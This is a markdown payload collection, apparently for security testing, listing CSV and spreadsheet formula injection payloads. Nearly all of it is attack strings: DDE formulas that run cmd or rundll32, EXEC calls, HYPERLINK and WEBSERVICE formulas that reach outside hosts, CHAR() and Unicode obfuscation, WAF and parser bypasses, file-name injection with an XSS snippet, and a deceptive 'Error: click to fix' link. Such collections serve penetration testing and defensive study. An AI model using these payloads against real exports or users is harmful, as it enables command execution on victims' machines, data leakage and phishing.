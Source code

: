 # CSV Injection Payload Collection

This is a curated list of CSV injection payloads used during security testing. The list includes basic to advanced variations, obfuscation tricks, and bypass techniques for different scenarios including formula injection, DDE attacks, and file path abuse.

---

## 🧪 Basic Payloads

```csv
=rundll32|'URL.dll,OpenURL calc'!A
-1-rundll32|'URL.dll,OpenURL calc'!A
=rundll32|'URL.dll,OpenURL notepad'!A
=rundll32|'URL.dll,OpenURL https://google.com'!A1
@SUM(1+1)*cmd|' /C calc'!A0
=cmd|'/C calc'!A1@example.com
=2+5+cmd|' /C calc'!A0
+hack(cmd|'/c calc.exe'!A
=hack/cmd|'/c calc.exe'!A
-2+3+cmd|'/C calc'!A1
-1-cmd|'/C calc'!'A1'
--1-cmd|'/C calc'!'A1'
=cmd|'/C notepad'!'A1'
=cmd|'/C calc'!'A2'
=cmd|'/C mspaint'!'A2'
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```

---

## 🧾 Older Excel Versions

```csv
DDE("cmd";"/C calc";"!A0")A0 
=EXEC("calc.exe")
```

---

## 🛠 rundll32 DLL Variants

```csv
=rundll32|'shell32.dll,ShellExec_RunDLL calc'!A1
=rundll32|'zipfldr.dll,RouteTheCall calc'!A1
=rundll32|'shell32.dll,Control_RunDLL timedate.cpl'!A1
=rundll32|'shell32.dll,Control_RunDLL appwiz.cpl'!A1
```

---

## 🌀 Abnormal Variations

```csv
=cmd|'/c calc'!'a2',
\t=\tc\tm\td\t|'/C notepad'!'A2',
=\ncmd|'/C calc'!A1
"=cmd|'/C calc'!'A1'"
```

---

## 🧩 Parse Breakers & Bypasses

### 🔹 Short Format Bypass

```csv
parsebreaker" ;,=cmd|'/C notepad'!'A1'
parsebreaker",=cmd|'/C notepad'!'A1''" ;,=cmd|'/C notepad'!'A2'
```

### 🔹 Polyglot / WAF Bypass

```csv
=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2',0x0D=cmd|'/C notepad'!'A3';=cmd|'/C notepad'!'A4'=cmd|'/C notepad'!'A5''" ;,=cmd|'/C notepad'!'A6'
=cmd|'/C notepad'!'A0';=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2';-1-cmd|'/C notepad'!'A3';0x0D-1-cmd|'/C notepad'!'A4';=cmd|'/C notepad'!'A5'=cmd|'/C notepad'!'A6''" ;,=cmd|'/C notepad'!'A7'
=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2',\---1-cmd|'/C notepad'!'A3';@cmd|'/C notepad'!'A4'+cmd|'/C notepad'!'A5''" ;,=cmd|'/C notepad'!'A6'
```

---

## 📛 Escaped or Newline Payloads

```csv
\---1-cmd|'/C calc'!'A1'
\t--1-cmd|'/C calc'!'A1'
\"--1-cmd|'/C calc'!'A1'
\n--4-cmd|'/C calc'!'A1'
<TAB>=cmd|'/C notepad'!'A1' 
<CR>=cmd|'/C notepad'!'A1'
```

---

## 🧼 Zero-Width Marker Obfuscation

```csv
\u200B=cmd|' /C calc'!A0
```

---

## ☣️ Dangerous Without Formula

These values can trigger execution by just clicking the cell:

```csv
file:///C:/Windows/System32/calc.exe
```

---

## 🚫 If Pipe (`|`), `cmd`, or Slash (`/`) Are Blocked

```csv
+HYPERLINK("file:///C:/Windows/System32/notepad.exe")
+HYPERLINK(CHAR(34)&file:///C:/Windows/System32/notepad.exe&CHAR(34))
@HYPERLINK(CHAR(34)&"file:///C:/Windows/System32/notepad.exe"&CHAR(34))
=HYPERLINK(T("file:///C:/Windows/System32/cmd.exe"), "ClickMe")
@HYPERLINK(\"file:///C:/Windows/System32/notepad.exe\")
@HYPERLINK(""file:///C:/Windows/System32/notepad.exe"")
=HYPERLINK("http://google.com", "Error: click to fix")
=HYPERLINK("https://google-web-pen-testing.vercel.app/", "Error: click to fix")
+HYPERLINK(\"http:\"&CHAR(47)&CHAR(47)&\"bing.com\"&CHAR(47)&\"payload\")
=WEBSERVICE("http://google.com")
=WEBSERVICE("https://google-web-pen-testing.vercel.app/")
=WEBSERVICE("http://bing.com")
```

---

## 🔢 CHAR() Obfuscation Variants

```csv
@HYPERLINK(CHAR(102)&CHAR(105)&CHAR(108)&CHAR(101)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(67)&CHAR(58)&CHAR(47)&CHAR(87)&CHAR(105)&CHAR(110)&CHAR(100)&CHAR(111)&CHAR(119)&CHAR(115)&CHAR(47)&CHAR(83)&CHAR(121)&CHAR(115)&CHAR(116)&CHAR(101)&CHAR(109)&CHAR(51)&CHAR(50)&CHAR(47)&CHAR(110)&CHAR(111)&CHAR(116)&CHAR(101)&CHAR(112)&CHAR(97)&CHAR(100)&CHAR(46)&CHAR(101)&CHAR(120)&CHAR(101))
@HYPERLINK("file:///C:/Windows/"&CHAR(83)&"ystem32/cmd.exe")
@HYPERLINK("file:///C:"&CHAR(47)&"Windows"&CHAR(47)&"System32"&CHAR(47)&"cmd.exe")
@WEBSERVICE(CHAR(104)&CHAR(116)&CHAR(116)&CHAR(112)&CHAR(115)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(119)&CHAR(119)&CHAR(119)&CHAR(46)&CHAR(103)&CHAR(111)&CHAR(111)&CHAR(103)&CHAR(108)&CHAR(101)&CHAR(46)&CHAR(99)&CHAR(111)&CHAR(109))
=HYPERLINK(CONCAT(CHAR(102),CHAR(105),CHAR(108),CHAR(101),CHAR(58),CHAR(47),CHAR(47),CHAR(47),CHAR(67),CHAR(58),CHAR(47),CHAR(87),CHAR(105),CHAR(110),CHAR(100),CHAR(111),CHAR(119),CHAR(115),CHAR(47),CHAR(83),CHAR(121),CHAR(115),CHAR(116),CHAR(101),CHAR(109),CHAR(51),CHAR(50),CHAR(47),CHAR(99),CHAR(109),CHAR(100),CHAR(46),CHAR(101),CHAR(120),CHAR(101)),"Open Command Prompt")
=T(CHAR(102)&CHAR(105)&CHAR(108)&CHAR(101)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(47)&CHAR(67)&CHAR(58)&CHAR(47)&CHAR(87)&CHAR(105)&CHAR(110)&CHAR(100)&CHAR(111)&CHAR(119)&CHAR(115)&CHAR(47)&CHAR(83)&CHAR(121)&CHAR(115)&CHAR(116)&CHAR(101)&CHAR(109)&CHAR(51)&CHAR(50)&CHAR(47)&CHAR(99)&CHAR(109)&CHAR(100)&CHAR(46)&CHAR(101)&CHAR(120)&CHAR(101))
=HYPERLINK(G2,"Click Me")
```

---

## 🧠 File Name Exploits

```csv
=HYPERLINK("google.com", "Error: click to fix") .csv
@SUM(1+1)+cmd|' C calc'!A0.jpg
"; alert('XSS');//.jpg
```

---

## 🌐 Unicode / Encoding Bypass

```csv
＝cmd|/C calc!A1
+cmd|/C calc!A1
\xEF\xBB\xBF\t=cmd|'/C calc'!A0
“＝cmd|'/C calc'!A0”
cmd|'/C calc'!A0,?
```

---

## 🧪 Payloads That Break Excel Logic

```csv
1e3
1e4
+1E+9
-123456
```

---

## 📚 Resources

- [HackTricks: CSV/Excel Injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)

---

## example of a multi chained csv on multiple cells
![image.png](attachment:db3b9314-02f1-4e79-ba80-c40a85dbb413:image.png)